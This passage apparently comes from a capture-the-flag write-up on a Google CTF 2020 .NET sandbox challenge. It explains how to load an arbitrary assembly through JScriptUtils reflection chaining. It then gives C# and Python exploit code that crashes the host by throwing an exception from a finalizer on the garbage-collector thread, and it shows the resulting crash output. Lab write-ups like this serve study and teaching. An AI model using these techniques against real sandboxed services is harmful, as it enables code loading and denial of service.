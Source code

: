 ```
```
Let's understand what's happening here.  
First of all, when we try to load an assembly, we can only load it into the current AppDomain. However, the "normal" Assembly.Load functions usually use `SecurityContextSource.CurrentAssembly` as the `securityContextSource`, so we need to specify explicitly that we want to load it under `SecurityContextSource.CurrentAppDomain`. Unfortunately, `SecurityContextSource` is an `enum`, and we can't access `enum`s using the shell... So we need to get a little creative: Find the method in the array of Assembly.GetMethods() and invoke it directly.  
Next there is the challenge of actually calling it - we want to pass `null` as the `rawSymbolStore`, but `JScriptRunner.JScriptUtils` doesn't handle `null` too well when passing it as a parameter to a function. Also, we need full `ReflectionPermission`s to execute it. So we chain `CallMethodSecure` with `CallMethod` to call `MethodInfo.Invoke` on the `Assembly.Load` method.  
Unfortunately, the assembly is loaded as security transparent, so we can't really use it to escalate, but we can write C# code.
## Crashing the Program
This idea came from trying to execute code from another context. The context we wanted to leverage is the Garbage Collector context, and execute code in the destructor. That did not work since the objects that are being used are still loaded into the lower permission AppDomain. But raising an exception from the destructor context actually crashed the GC thread anc crashes the whole program. This is the C# code that we used:
```
using System;

namespace FileLoadException
{
	public class MyTest : MarshalByRefObject{
		~MyTest(){
			throw new Exception();
		}
	}
	public class FileLoadException
    {
        public MyTest GetSpecialClass(){
            return new MyTest();
        }
	}
}
```
The python code:
```
dll = file(sys.argv[1], 'rb').read()
dll_base64 = dll.encode("base64").replace("\n", "").replace("\r", "")

LoadMyAssembly = CallMethodSecure(JScriptUtils_Type, "CallMethod", MethodInfo_invoke1, Assembly_Load_3params, MakeArray(AssemblyType, MakeArray(
    Base64Decode(dll_base64), null, 0
)))
remote.sendline(LoadMyAssembly)

# Create and "lose" an instance of MyTeSt
line = CallMethodSecure(FileLoadException, "GetSpecialClass")
remote.sendline(line)

# Call the garbage collector - this will trigger the ~MyTest
line = '__global__.System.GC.Collect()'
remote.sendline(line)
```
And the exception is thrown in the GC thread:
```
c:\ctf\challenge>GoogleCTF2020.exe c:\ctf\flag.txt 1337 all
Listening on [::]:1337

Unhandled Exception: System.Exception: Exception of type 'System.Exception' was thrown.
```